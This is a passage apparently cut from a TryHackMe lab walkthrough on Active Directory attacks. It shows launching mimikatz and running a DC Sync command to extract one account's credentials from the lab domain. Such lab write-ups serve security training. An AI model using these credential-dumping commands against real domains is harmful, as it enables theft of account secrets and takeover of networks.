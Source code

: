 		![task2-ssh](./images/task2-ssh.png)

	* Run mimikatz
	
		```
		C:\Tools\mimikatz_trunk\x64\mimikatz.exe
		```

		![task2-mimikatz](./images/task2-mimikatz.png)

	* Performing a DC Sync of a single account
	
		```
		lsadump::dcsync /domain:za.tryhackme.loc /user:lorraine.gill
		```
